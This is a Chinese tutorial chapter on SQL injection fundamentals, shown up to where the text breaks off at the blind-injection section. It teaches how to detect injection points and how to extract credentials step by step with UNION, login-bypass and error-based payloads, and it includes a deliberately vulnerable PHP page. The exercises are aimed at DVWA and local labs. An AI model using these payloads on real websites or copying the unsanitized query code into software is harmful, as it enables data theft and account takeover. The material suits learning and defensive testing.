







# 第14章 SQL注入基础：原理篇

> **难度等级：🟢 简单级 → 🟡 中等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：什么是SQL注入、SQL基础语法、注入原理、注入分类、判断注入点、手工注入步骤、各种注入位置**
>
> ::: tip 说明
> SQL注入，
> Web漏洞之王。
>
> 可以说，
> 学Web安全，
> SQL注入是绕不开的一道坎。
>
> 为什么叫"注入之王"？
> 因为它危害大、出现频率高、利用方式多。
> 从20年前到现在，
> SQL注入一直排在OWASP Top 10的前列。
>
> 这一章，
> 我们从最基础的开始，
> 什么是SQL、
> 什么是SQL注入、
> 注入的原理是什么、
> 怎么判断注入点、
> 手工注入的基本步骤...
>
> 一步一步给你讲明白。
> 只要你跟着学，
> 肯定能学会。
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手一听到"SQL注入"就头大，
觉得好难啊，
又是数据库又是SQL语句的。

其实没那么难。
SQL注入的原理很简单，
说白了就是：
**用户输入的数据，
被当成SQL代码执行了。**

就这么一句话。

当然，
要真正掌握SQL注入，
还是得下点功夫。
但只要你理解了原理，
后面的都是技巧问题。

这一章，
我们先把基础打牢。
先搞懂SQL是什么，
再搞懂注入是怎么回事，
然后学怎么判断注入点，
最后用手工注入的方式，
完完整整走一遍流程。

学完这一章，
你就可以去DVWA上练手了。
准备好了吗？
让我们开始吧！
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 知道什么是SQL，什么是SQL注入
- [x] 掌握SQL基础语法（增删改查）
- [x] 理解SQL注入产生的根本原因
- [x] 知道SQL注入的各种分类
- [x] 会判断一个参数有没有注入
- [x] 掌握手工注入的基本步骤
- [x] 知道注入点可能出现在哪些位置
- [x] 能在DVWA上完成基础的SQL注入练习

---

## 📚 什么是SQL？

### 1.1 SQL是什么？

**SQL，全称Structured Query Language，
结构化查询语言。**

简单说，
SQL就是用来和数据库对话的语言。

就像你和中国人说话用中文，
和美国人说话用英语，
和数据库说话就用SQL。

你想从数据库里拿数据，
用SQL；
你想往数据库里存数据，
用SQL；
你想改数据库里的数据，
用SQL；
你想删数据库里的数据，
还是用SQL。

### 1.2 常见的数据库

数据库有很多种，
常见的有：

| 数据库 | 类型 | 说明 |
|--------|------|------|
| MySQL | 关系型 | 最流行，PHP网站常用 |
| MSSQL（SQL Server） | 关系型 | 微软的，ASP.NET常用 |
| Oracle | 关系型 | 大企业常用，比较重 |
| Access | 关系型 | 微软的小型数据库，老网站常用 |
| PostgreSQL | 关系型 | 功能强大，开源免费 |
| MongoDB | NoSQL | 文档型数据库，非关系型 |
| Redis | NoSQL | 键值对缓存数据库 |

我们主要讲MySQL，
因为它最常见，
新手也最容易接触到。

其他数据库的注入原理都差不多，
学会了MySQL的，
其他的触类旁通。

### 1.3 SQL基础语法速成

SQL注入不需要你成为SQL高手，
但是基础的语法得会。
我给你快速过一遍。

#### 1.3.1 查询数据（SELECT）

最常用的就是查询，
从表里把数据拿出来。

```sql
-- 查询所有列
SELECT * FROM 表名;

-- 查询指定列
SELECT 列名1, 列名2 FROM 表名;

-- 带条件查询
SELECT * FROM 表名 WHERE 条件;

-- 排序
SELECT * FROM 表名 ORDER BY 列名 ASC/DESC;

-- 限制条数
SELECT * FROM 表名 LIMIT 数量;
SELECT * FROM 表名 LIMIT 偏移, 数量;
```

举个例子：
```sql
-- 查询users表里的所有用户
SELECT * FROM users;

-- 查询id为1的用户
SELECT * FROM users WHERE id = 1;

-- 查询用户名是admin的用户
SELECT * FROM users WHERE username = 'admin';

-- 按id降序排列，取前5条
SELECT * FROM users ORDER BY id DESC LIMIT 5;
```

#### 1.3.2 插入数据（INSERT）

往表里加数据。

```sql
INSERT INTO 表名 (列1, 列2, ...) VALUES (值1, 值2, ...);
```

例子：
```sql
INSERT INTO users (username, password) VALUES ('test', '123456');
```

#### 1.3.3 更新数据（UPDATE）

修改表里的数据。

```sql
UPDATE 表名 SET 列1 = 值1, 列2 = 值2 WHERE 条件;
```

例子：
```sql
UPDATE users SET password = 'newpass' WHERE id = 1;
```

#### 1.3.4 删除数据（DELETE）

删除表里的数据。

```sql
DELETE FROM 表名 WHERE 条件;
```

例子：
```sql
DELETE FROM users WHERE id = 1;
```

#### 1.3.5 常用函数

MySQL里有很多内置函数，
注入的时候经常用到。

| 函数 | 作用 |
|------|------|
| `version()` | 数据库版本 |
| `database()` | 当前数据库名 |
| `user()` | 当前用户名 |
| `@@version` | 数据库版本 |
| `@@datadir` | 数据库路径 |
| `concat()` | 拼接字符串 |
| `group_concat()` | 把多行结果拼成一行 |
| `count()` | 统计数量 |
| `length()` | 字符串长度 |
| `substring()` | 截取字符串 |
| `ascii()` | 转ASCII码 |
| `sleep()` | 延迟（盲注用） |
| `if()` | 条件判断 |

先记住这几个，
后面会经常用到。

#### 1.3.6 信息_schema

MySQL 5.0以上有个很重要的数据库：
`information_schema`。

它里面存了所有数据库、表、列的信息。
注入的时候全靠它来"脱库"。

几个重要的表：
- `information_schema.schemata`：存所有数据库名
- `information_schema.tables`：存所有表名
- `information_schema.columns`：存所有列名

对应的字段：
- `schema_name`：数据库名
- `table_name`：表名
- `column_name`：列名
- `table_schema`：表所在的数据库名

举个例子：
```sql
-- 查询所有数据库
SELECT schema_name FROM information_schema.schemata;

-- 查询当前数据库里的所有表
SELECT table_name FROM information_schema.tables WHERE table_schema = database();

-- 查询users表里的所有列
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

这个很重要，
一定要记住！

---

## 🕳️ 什么是SQL注入？

### 2.1 一个简单的例子

光说概念太抽象，
我给你举个例子，
你一下子就懂了。

假设我们有个网站，
有个新闻页面，
通过id参数获取不同的新闻：

```
http://example.com/news.php?id=1
```

后台的PHP代码大概是这样的：

```php
<?php
$id = $_GET['id'];
$sql = "SELECT * FROM news WHERE id = $id";
$result = mysql_query($sql);
// ... 显示新闻
?>
```

看到问题了吗？

用户传入的`id`参数，
直接拼接到SQL语句里了，
没有做任何过滤。

那如果用户传入的不是`1`，
而是`1 OR 1=1`呢？

SQL语句就变成了：
```sql
SELECT * FROM news WHERE id = 1 OR 1=1
```

因为`1=1`永远成立，
所以这条语句会把表里所有的新闻都查出来！

这就是最基础的SQL注入。

**用户输入的数据，
被当成了SQL代码的一部分执行了。**

就这么简单。

> 💡 **深入理解：数据库是怎么"被骗"的？**
>
> 上面这个例子太简单了，
> 我们来深挖一下，
> 数据库到底是怎么"上当"的。
>
> 数据库在执行SQL语句时，
> 有一个叫"解析器（Parser）"的组件。
> 它的工作是：
> 1. 读取你传给它的SQL字符串
> 2. 分析：哪些是"关键字"（SELECT、FROM、WHERE...）
> 3. 分析：哪些是"数据"（表名、列名、用户输入的值...）
> 4. 执行
>
> 正常情况下：
> ```sql
> SELECT * FROM news WHERE id = 1
> ```
> 解析器看到：
> - `SELECT`、`FROM`、`WHERE` → 关键字（要执行的操作）
> - `*`、`news`、`id` → 标识符（操作的对象）
> - `1` → 数据（用户提供的值）
>
> 一切都清清楚楚。
>
> 但是如果用户输入了 `1 OR 1=1`：
> ```sql
> SELECT * FROM news WHERE id = 1 OR 1=1
> ```
> 解析器看到的是：
> - `1 OR 1=1` 被当成了WHERE条件的一部分！
> - 用户输入的 `OR 1=1` 本来是"数据"，
>   但因为和SQL语句无缝拼接在一起，
>   **解析器分不清哪里是原始代码、哪里是用户数据了**！
>
> 这就是SQL注入的本质：
> **解析器被欺骗了，
> 它把用户输入的"数据"当成了"SQL代码"来解析和执行。**
>
> 就像你把一张假的体检报告夹在真的体检报告里，
> 医生如果不仔细看，
> 就会把假报告里的内容当成真的来看。
> 数据库也是这样，
> 它不会分辨"这段代码是程序员写的还是用户输入的"，
> 它只负责执行整个SQL语句。

**图14-1 SQL注入原理示意图**



### 2.2 SQL注入的本质

**SQL注入的本质：代码和数据没有分离。**

正常情况下，
用户输入的是"数据"，
应该只是作为参数使用。
但是因为没有过滤，
这些"数据"被当成了"代码"执行，
从而改变了原本的SQL逻辑。

就好像你去银行取钱，
你说"取100块"，
这是正常的。
但是如果你说"取100块，顺便把所有人的钱都转到我账户上"，
银行还真执行了，
那这就出问题了。

### 2.3 SQL注入产生的条件

SQL注入的产生，
需要满足两个条件：

1. **参数用户可控**：前端传入的参数，后端直接使用了
2. **参数带入数据库查询**：这个参数被拼接到了SQL语句里，并且执行了

两个条件缺一不可。

如果参数用户不可控，
那当然没发注入。
如果参数可控但是不查数据库，
那也没法注入。

### 2.4 SQL注入的危害

SQL注入的危害非常大，
可以说是Web漏洞里危害最大的之一。

能做什么呢？
- 窃取数据库里的所有数据（拖库）
- 篡改、删除数据
- 绕过登录验证
- 执行系统命令（某些情况下）
- 获取服务器权限
- ...

严重程度取决于：
- 数据库的权限有多大
- 网站的业务有多重要
- 数据有多敏感

所以说，
SQL注入是Web安全的头号大敌。

**图14-2 SQL注入危害全景图**



---

## 📂 SQL注入的分类

### 3.1 按注入位置分

根据注入点出现在哪里，
可以分为：

```
按位置分
├── GET注入：参数在URL里
├── POST注入：参数在POST请求体里
├── Cookie注入：参数在Cookie里
├── User-Agent注入：参数在UA头里
├── Referer注入：参数在Referer头里
├── X-Forwarded-For注入：XFF头
├── 其他HTTP头注入
└── ...
```

只要是用户可控的、
被带入数据库查询的地方，
都可能有注入。

### 3.2 按数据类型分

根据参数的数据类型，
可以分为：

- **数字型注入**：参数是数字，比如 `id=1`
- **字符型注入**：参数是字符串，比如 `username=admin`

两者的区别是，
字符型的需要闭合引号。

举个例子：

数字型：
```sql
SELECT * FROM users WHERE id = 1  -- 直接注入
```

字符型：
```sql
SELECT * FROM users WHERE username = 'admin'  -- 需要闭合单引号
```

### 3.3 按返回结果分

根据能不能直接看到结果，
可以分为：

```
按返回结果分
├── 显注（有回显）
│   ├── 联合查询注入（UNION）
│   └── 报错注入
│
└── 盲注（没有回显）
    ├── 布尔盲注（真/假）
    └── 时间盲注（延迟）
```

**显注**：页面会直接显示查询结果，或者显示报错信息，
可以直接看到注入的结果。

**盲注**：页面不显示结果，也不显示报错，
只能通过页面的变化（布尔盲注）或者延迟（时间盲注）来判断。

显注比较简单，
盲注比较麻烦，
但是原理都是一样的。

### 3.4 其他分类

还有一些其他的分类：
- 堆叠注入（多条SQL语句一起执行）
- 二次注入（先存进去，再取出来的时候注入）
- 宽字节注入
- DNSLog注入（外带数据）
- ...

这些我们后面章节会讲。

**图14-3 SQL注入分类思维导图**



---

## 🔍 如何判断注入点？

### 4.1 判断注入的基本思路

拿到一个参数，
怎么判断它有没有注入呢？

基本思路就是：
**输入特殊字符，
看页面有没有异常变化。**

比如：
- 加个单引号 `'`，看页面会不会报错
- 加个 `and 1=1`，看页面正不正常
- 加个 `and 1=2`，看页面会不会异常

如果有异常变化，
说明可能存在注入。

**图14-4 注入点判断流程图**



### 4.2 数字型注入判断

假设参数是 `id=1`，
我们来一步步判断：

**第一步：加单引号**
```
?id=1'
```
如果页面报错、或者显示不正常，
说明可能有注入。

**第二步：and 1=1**
```
?id=1 and 1=1
```
页面正常显示，和原来一样。

**第三步：and 1=2**
```
?id=1 and 2=1
```
页面异常，不显示内容或者显示错误。

如果这三步都符合，
那基本可以确定是数字型注入了。

> 💡 为什么？
> 因为：
> - `1 and 1=1` 相当于 `true and true`，结果为真，正常返回
> - `1 and 1=2` 相当于 `true and false`，结果为假，返回空
>
> 如果页面有这样的差异，
> 说明我们的SQL语句被执行了，
> 也就是存在注入。

### 4.3 字符型注入判断

如果是字符型的，
判断方法类似，
但是需要考虑引号闭合。

假设参数是 `username=admin`，
后台SQL是：
```sql
SELECT * FROM users WHERE username = 'admin'
```

我们可以这样测试：

**第一步：加单引号**
```
?username=admin'
```
页面报错，因为引号没闭合，SQL语法错误。

**第二步：闭合引号 + and 1=1**
```
?username=admin' and '1'='1
```
页面正常。

**第三步：闭合引号 + and 1=2**
```
?username=admin' and '1'='2
```
页面异常。

如果符合，
说明是字符型注入。

### 4.4 判断数据库类型

判断出有注入之后，
还得知道是什么数据库，
不同数据库注入方法不一样。

怎么判断？
可以用一些不同数据库特有的函数或者语法：

| 数据库 | 特征函数/语法 |
|--------|--------------|
| MySQL | `version()`、`@@version`、`LIMIT` |
| MSSQL | `@@version`、`TOP`、`dbo` |
| Access | `TOP`、没有`information_schema` |
| Oracle | `v$version`、`rownum` |

比如：
```sql
-- MySQL的LIMIT语法
?id=1 ORDER BY 1-- 

-- MSSQL的TOP语法
?id=1 AND (SELECT TOP 1 name FROM sysobjects) > 0

-- Oracle的rownum
?id=1 AND (SELECT count(*) FROM all_tables WHERE rownum=1) > 0
```

也可以看报错信息，
如果页面报错的话，
一般能看出是什么数据库。

### 4.5 注入点可能在哪里？

不要只盯着GET参数，
注入点可能出现在任何地方：

1. **GET参数**：最常见，URL问号后面的参数
2. **POST参数**：表单提交的参数
3. **Cookie**：Cookie里的参数
4. **User-Agent**：浏览器标识
5. **Referer**：来源页面
6. **X-Forwarded-For**：客户端IP
7. **其他HTTP头**：各种自定义头
8. **JSON数据**：API接口的JSON参数
9. **XML数据**：XML格式的参数
10. **文件名**：比如下载的文件名

总之一句话：
**只要是用户可控、并且被带入数据库查询的地方，
都可能有注入。**

所以做测试的时候，
不要只测GET参数，
要把所有可控的地方都测一遍。

**图14-5 各种注入位置示意图**



---

## 👆 手工注入的基本步骤

### 5.1 手工注入五步走

手工注入大概可以分为五步：

```
1. 判断注入点 → 2. 判断字段数 → 3. 判断显示位
                          ↓
              5. 脱库（库→表→列→数据） ← 4. 收集信息
```

我们一步一步来讲。

**图14-6 手工注入五步流程图**



### 5.2 第一步：判断注入点

就是我们上一节讲的，
先确认有没有注入，
是数字型还是字符型，
是什么数据库。

这一步是基础，
判断对了后面才能继续。

### 5.3 第二步：判断字段数（ORDER BY）

确认有注入之后，
我们需要知道当前查询返回了几列数据，
这样才能用联合查询。

怎么判断？
用`ORDER BY`。

比如：
```sql
?id=1 ORDER BY 1--   （正常）
?id=1 ORDER BY 2--   （正常）
?id=1 ORDER BY 3--   （正常）
?id=1 ORDER BY 4--   （报错）
```

说明有3列。

> 💡 原理：
> `ORDER BY n` 是按第n列排序。
> 如果n大于总列数，
> 就会报错。
> 所以我们可以从1开始试，
> 直到报错，
> 就能知道总共有几列了。

> 💡 **再挖深一点：为什么UNION要求列数相同？**
>
> 很多同学只记住了"UNION要求列数相同"这个规则，
> 但不知道为什么。
>
> 想象一下，
> 你要把两个Excel表格拼在一起。
> 第一个表格有3列：姓名、年龄、邮箱
> 第二个表格有2列：产品名、价格
> 怎么拼？对不齐啊！
>
> UNION就是做"表格拼接"的操作：
> ```
> 查询1的结果：         查询2的结果：
> ┌──────┬────┬──────┐  ┌──────┬──────┐
> │ 姓名 │ 年龄│ 邮箱 │  │ 产品 │ 价格 │
> ├──────┼────┼──────┤  ├──────┼──────┤
> │ 张三 │ 25 │xx@.. │  │ 苹果 │  5  │
> └──────┴────┴──────┘  └──────┴──────┘
>
> UNION拼接后：
> ┌──────┬────┬──────┐
> │ 姓名 │ 年龄│ 邮箱 │
> ├──────┼────┼──────┤
> │ 张三 │ 25 │xx@.. │
> │ 苹果 │  5 │ NULL │ ← 第3列没数据，只能填NULL
> └──────┴────┴──────┘
> ```
>
> 如果列数不一样，数据库不知道该怎么对齐。
> 这就是为什么我们必须先知道"原查询有几列"——
> 知道了原查询的列数，
> 我们的UNION查询才能配得上同样多的列。
>
> 这也是为什么我们用 `UNION SELECT 1,2,3` 来测试——
> 因为数字1、2、3不挑数据类型，不会因为类型不匹配而报错。

### 5.4 第三步：判断显示位（UNION SELECT）

知道了列数，
接下来我们要知道，
哪些列的数据会显示在页面上。

因为不是所有列都会显示，
有些列只是用来查询，
不展示给用户。

我们需要找到会显示的列，
也就是"显示位"。

怎么找？
用`UNION SELECT`。

比如有3列：
```sql
?id=1 UNION SELECT 1,2,3-- 
```

然后看页面上显示的数字是几，
那个数字对应的列就是显示位。

举个例子，
如果页面上显示了`2`和`3`，
说明第2列和第3列是显示位，
我们就可以在这两个位置放我们要查询的内容。

> ⚠️ 注意：
> `UNION`要求前后两个查询的列数必须一样，
> 而且数据类型要兼容。
> 所以我们前面才要先判断列数。

### 5.5 第四步：收集基础信息

找到显示位之后，
就可以开始查询了。
先查一些基础信息：

```sql
-- 数据库版本
?id=1 UNION SELECT 1,version(),3-- 

-- 当前数据库名
?id=1 UNION SELECT 1,database(),3-- 

-- 当前用户名
?id=1 UNION SELECT 1,user(),3-- 

-- 数据库路径
?id=1 UNION SELECT 1,@@datadir,3-- 

-- 操作系统
?id=1 UNION SELECT 1,@@version_compile_os,3-- 
```

这些信息都很有用，
可以帮助我们判断能不能继续深入利用。

### 5.6 第五步：脱库（库→表→列→数据）

接下来就是重头戏了：
**把数据库里的数据都扒出来。**

这个过程有固定的顺序：

```
1. 查所有数据库名
2. 选一个数据库，查里面的所有表名
3. 选一个表，查里面的所有列名
4. 最后查数据
```

一步一步来。

#### 5.6.1 查所有数据库

```sql
?id=1 UNION SELECT 1,group_concat(schema_name),3 
FROM information_schema.schemata-- 
```

这样就能得到所有数据库名，
用逗号分隔。

#### 5.6.2 查指定数据库里的表

假设我们想查`test`数据库里的表：

```sql
?id=1 UNION SELECT 1,group_concat(table_name),3 
FROM information_schema.tables 
WHERE table_schema='test'-- 
```

就能得到这个库里所有的表名。

#### 5.6.3 查指定表里的列

假设我们想查`users`表里的列：

```sql
?id=1 UNION SELECT 1,group_concat(column_name),3 
FROM information_schema.columns 
WHERE table_name='users'-- 
```

就能得到这个表里所有的列名。

#### 5.6.4 查数据

最后，
查数据！

假设我们想查`users`表里的`username`和`password`：

```sql
?id=1 UNION SELECT 1,group_concat(username,0x3a,password),3 
FROM users-- 
```

这样就能把所有用户名和密码都查出来了！

> 💡 说明：
> - `group_concat()` 是把多行拼成一行，方便查看
> - `0x3a` 是冒号`:`的十六进制，用来分隔用户名和密码
> - 也可以用`concat_ws(':', username, password)`

是不是很神奇？
就这么几步，
整个数据库的数据都拿到了。

**图14-7 脱库流程图（information_schema）**



---

## 💻 代码实例：一个有注入漏洞的网站光说不练假把式，
我给你写一个最简单的有SQL注入漏洞的PHP代码，
你可以在本地搭一下，
亲手试试。

### 代码示例

新建一个`test.php`文件：

```php
<?php
// 连接数据库
$host = 'localhost';
$user = 'root';
$pass = 'root';
$dbname = 'test';

$conn = mysqli_connect($host, $user, $pass, $dbname);
if (!$conn) {
    die("连接失败: " . mysqli_connect_error());
}

// 获取id参数
$id = $_GET['id'];

// 查询数据库（这里有注入漏洞！）
$sql = "SELECT id, username, email FROM users WHERE id = $id";
$result = mysqli_query($conn, $sql);

// 显示结果
echo "<h2>用户信息</h2>";
if (mysqli_num_rows($result) > 0) {
    while($row = mysqli_fetch_assoc($result)) {
        echo "ID: " . $row["id"] . "<br>";
        echo "用户名: " . $row["username"] . "<br>";
        echo "邮箱: " . $row["email"] . "<br>";
        echo "<hr>";
    }
} else {
    echo "没有找到用户";
}

mysqli_close($conn);
?>
```

再建个数据库和表：

```sql
CREATE DATABASE test;
USE test;

CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(100) NOT NULL,
    email VARCHAR(100)
);

INSERT INTO users (username, password, email) VALUES
('admin', 'admin123', 'admin@example.com'),
('user1', 'pass123', 'user1@example.com'),
('user2', 'pass456', 'user2@example.com');
```

### 测试注入

搭好之后，
访问：
```
http://localhost/test.php?id=1
```

看到正常的用户信息。

然后试试：
```
http://localhost/test.php?id=1 and 1=1
http://localhost/test.php?id=1 and 1=2
```

看看页面变化。

再试试联合查询：
```
http://localhost/test.php?id=1 order by 3-- 
http://localhost/test.php?id=1 order by 4-- 
```

看看有几列。

再试试：
```
http://localhost/test.php?id=1 union select 1,2,3-- 
```

看看显示位是哪几列。

最后试试脱库：
```
http://localhost/test.php?id=1 union select 1,database(),3-- 
http://localhost/test.php?id=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- 
http://localhost/test.php?id=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- 
http://localhost/test.php?id=1 union select 1,group_concat(username,0x3a,password),3 from users-- 
```

一步一步来，
亲手操作一遍，
你就都懂了。

---

## 📚 案例讲解

### 案例1：最经典的1=1注入（手把手演示）

小明刚学SQL注入，
在DVWA上练手。

他打开DVWA的SQL Injection模块，
难度选Low。

页面上有个输入框，
让输入User ID。

他先输入`1`，
点Submit，
页面显示了ID为1的用户信息。

他想起教程里说的，
先判断有没有注入。

他输入：
```
1'
```
页面报错了！
"You have an error in your SQL syntax..."

有戏！

接着他输入：
```
1 and 1=1
```
页面正常显示用户信息。

再输入：
```
1 and 1=2
```
页面什么都没显示。

完美！
确认是数字型注入。

接下来判断列数，
他输入：
```
1 order by 1-- 
```
正常。

```
1 order by 2-- 
```
正常。

```
1 order by 3-- 
```
报错了！

说明有2列。

然后找显示位：
```
1 union select 1,2-- 
```

页面上显示了`First name: 1`和`Surname: 2`。
原来第1列和第2列都是显示位！

接下来查数据库名：
```
1 union select database(), version()-- 
```

得到数据库名是`dvwa`，
版本是`5.7.26`。

然后查表：
```
1 union select 1, group_concat(table_name) 
from information_schema.tables 
where table_schema='dvwa'-- 
```

得到表名：`guestbook, users`。

有个`users`表！
这肯定是用户表。

然后查列：
```
1 union select 1, group_concat(column_name) 
from information_schema.columns 
where table_name='users'-- 
```

得到列名：`user_id, first_name, last_name, user, password, avatar, last_login, ...`

有`user`和`password`！

最后查数据：
```
1 union select user, password from users-- 
```

所有的用户名和密码都出来了！

小明激动地跳了起来，
这是他第一次靠手工注入拿到数据！

> 老K说：
> **"第一次手工注入成功的那种感觉，
> 是用工具体会不到的。
> 所以新手一定要先练手工注入，
> 把原理搞懂，
> 再去用工具。
>
> 工具只是提高效率的，
> 原理才是根本。
> 原理不懂，
> 用工具也用不明白。"**

### 案例2：从一个登录框绕过讲SQL注入

网站有个登录框，
需要输入用户名和密码。

后台代码大概是这样的：

```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users 
        WHERE username = '$username' 
        AND password = '$password'";

$result = mysql_query($sql);

if (mysql_num_rows($result) > 0) {
    echo "登录成功！";
} else {
    echo "用户名或密码错误";
}
?>
```

这是一个非常经典的登录框，
也是非常经典的SQL注入场景。

如果用户名密码都对，
就登录成功。
否则登录失败。

但是你不知道密码怎么办？
用SQL注入绕过啊！

用户名输入：
```
admin' or '1'='1
```

密码随便输入，比如`123456`。

你猜会怎么样？

SQL语句变成了：
```sql
SELECT * FROM users 
WHERE username = 'admin' or '1'='1' 
AND password = '123456'
```

因为`'1'='1'`永远成立，
所以查询条件为真，
会返回用户数据，
然后就登录成功了！

这就是经典的"万能密码"。

还有更简单的：
用户名输入`admin'-- `，
密码随便。

SQL变成：
```sql
SELECT * FROM users 
WHERE username = 'admin'-- ' AND password = '123456'
```

`-- `是注释符，
后面的内容都被注释掉了。
所以只验证了用户名，
密码不用验证也能登录。

> 给新手的提醒：
> **登录框是SQL注入的高发区。
> 很多网站的登录框都存在这样的问题。
>
> 当然，
> 现实中可能有各种防护，
> 不会这么简单。
> 但是原理是一样的。
>
> 看到登录框，
> 先试试有没有注入，
> 说不定就有惊喜。**

### 案例3：联合查询注入完整流程

我再给你完整走一遍联合查询注入的流程，
加深你的理解。

目标：`http://example.com/article.php?id=10`

**第一步：判断注入**
```
/article.php?id=10'          → 报错
/article.php?id=10 and 1=1   → 正常
/article.php?id=10 and 1=2   → 异常
```
确认：数字型注入，MySQL数据库。

**第二步：判断列数**
```
/article.php?id=10 order by 1--   → 正常
/article.php?id=10 order by 2--   → 正常
/article.php?id=10 order by 3--   → 正常
/article.php?id=10 order by 4--   → 正常
/article.php?id=10 order by 5--   → 报错
```
确认：4列。

**第三步：找显示位**
```
/article.php?id=-10 union select 1,2,3,4-- 
```
（注意：这里id=-10，是为了让前面的查询结果为空，这样才能显示我们union的结果）

页面显示：
- 标题位置显示`2`
- 内容位置显示`3`

确认：显示位是第2列和第3列。

**第四步：查基本信息**
```
/article.php?id=-10 union select 1,database(),version(),4-- 
```
得到：
- 数据库名：`cms_db`
- 数据库版本：`5.5.53`

**第五步：查表**
```
/article.php?id=-10 union select 1,group_concat(table_name),3,4 
from information_schema.tables 
where table_schema='cms_db'-- 
```
得到表名：`article, admin, comment, user, ...`

有个`admin`表！
看看里面有什么。

**第六步：查列**
```
/article.php?id=-10 union select 1,group_concat(column_name),3,4 
from information_schema.columns 
where table_name='admin'-- 
```
得到列名：`id, username, password, ...`

有用户名和密码！

**第七步：查数据**
```
/article.php?id=-10 union select 1,group_concat(username,0x7e,password),3,4 
from admin-- 
```

得到：
`admin~e10adc3949ba59abbe56e057f20f883e`

密码是MD5加密的，
拿去解密网站解一下，
得到：`123456`。

完美！
拿到管理员账号密码了。

> 经验之谈：
> **联合查询注入是最基础、最常用的注入方式。
> 一定要练熟。
>
> 流程就是这么几步：
> 判断注入 → 猜列数 → 找显示位 → 查库 → 查表 → 查列 → 查数据。
>
> 熟能生巧，
> 练得多了，
> 几分钟就能走完一遍。**

### 案例4：报错注入原理与实战

联合查询注入需要有显示位，
如果页面不显示查询结果，
但是会显示数据库报错信息，
那我们就可以用**报错注入**。

报错注入的原理是：
**构造特殊的SQL语句，
让数据库执行的时候报错，
并且把我们想要查询的数据放在报错信息里一起返回。**

常用的报错函数：
- `extractvalue()`
- `updatexml()`
- `floor()` + `count()` + `group by`

举个例子，
用`extractvalue()`：

```sql
?id=1 and extractvalue(1, concat(0x7e, database(), 0x7e))-- 
```

执行后，
数据库会报错：
```
XPATH syntax error: '~cms_db~'
```

我们要的数据库名就在报错信息里！

再比如查表：
```sql
?id=1 and extractvalue(1, 
    concat(0x7e, 
    (select group_concat(table_name) from information_schema.tables where table_schema=database()),
    0x7e))-- 
```

表名也会在报错信息里显示出来。

> 说明：
> `extractvalue()`第二个参数要求是合法的XPATH格式，
> 我们给它加上特殊字符`~`（0x7e），
> 它就会报错，
> 并且把我们拼接的内容显示在报错信息里。
>
> `updatexml()`的原理类似。

报错注入非常实用，
很多时候联合查询用不了，
但是报错注入可以用。

### 案例5：盲注是什么？怎么操作？

什么是盲注？
就是页面不显示查询结果，
也不显示报错信息，
你看不到直接的结果，
只能通过页面的变化来判断。

盲注分为两种：
- **布尔盲注**：页面有"真"和"假"两种状态
- **时间盲注**：通过延迟来判断

#### 布尔盲注

